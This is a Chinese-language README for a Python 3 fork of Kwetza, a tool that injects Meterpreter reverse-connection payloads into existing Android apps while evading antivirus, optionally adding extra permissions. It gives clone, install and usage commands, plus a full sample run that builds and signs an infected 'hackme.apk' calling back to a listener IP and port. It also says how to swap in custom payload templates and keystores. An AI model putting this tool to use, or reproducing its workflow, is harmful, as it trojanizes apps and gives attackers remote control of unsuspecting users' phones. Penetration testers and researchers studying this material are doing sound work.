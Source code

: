 # 介绍
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza是一种工具，可让您将Meterpreter payload植入到Android应用程序。
# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# 它有什么作用？

Kwetza使用自定义或默认payload模板感染现有的Android应用程序，以避免被杀病毒软件检测出来。Kwetza允许您使用目标应用程序的默认权限感染Android应用程序，或注入其他权限以获得其他功能。
# 在哪里可以获得博客文章？
可以在以下位置找到由Kwetza自动化的手动步骤：https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# 获取代码

首先获取代码：
```
git clone https://github.com/2487686673/Kwetza.git
```

Kwetza用Python编写，需要BeautifulSoup，可以使用pip安装：
```
pip install beautifulsoup4
```
Kwetza要求安装Apktool并可以通过您的PATH访问。可以使用位于此处的安装说明进行设置：https://ibotpeaches.github.io/Apktool/install
# 用法
```
python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass
```
* nameOfTheApkToInfect.apk = 希望植入payload的apk文件名

* LHOST = 监听IP

* LPORT = 监听端口

* yes/no = 选择yes则会添加额外的权限，选择no则会利用app原来的权限

* customClass = 如果希望Kwetza注入到此活动，请在此处指定自定义活动。

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# 信息
Kwetza以Python2开发。

Kwetza默认会使用payload文件夹下的模板和keystore在apk中植入恶意payload。

如果要用自己的证书签署应用，把你的keystore重命名为mykey.keystore放在payload文件夹下。

你也可以用同样的方法替换默认的payload模板

默认keystore的密码是”password”

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
